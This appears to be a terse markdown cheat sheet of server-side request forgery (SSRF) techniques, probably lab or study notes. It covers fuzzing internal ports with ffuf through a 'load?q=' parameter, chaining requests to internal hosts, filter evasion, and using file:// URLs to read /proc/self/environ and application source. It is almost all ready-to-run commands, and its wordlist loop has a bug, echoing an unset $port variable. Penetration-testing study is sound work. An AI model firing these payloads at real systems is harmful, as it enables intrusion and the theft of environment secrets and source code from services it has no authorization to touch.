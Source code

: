 # Fuzzing local ports

## How to generate port wordlist

```for i in {1..65535};do echo $port >> ports.txt;done```

## FFUF

```ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30```

# Interacting with the Target (localports)

```curl -i -s "http://<TARGET IP/load?q=http://127.0.0.1:PORT```

# Interacting with other web servers

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"```

# Chaining multiple SSRFs together

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"```
```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"```
```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -```

# Retrieving local file through the target application

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"```

# Evading filters (Error based)

## Removing :// from request

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"```

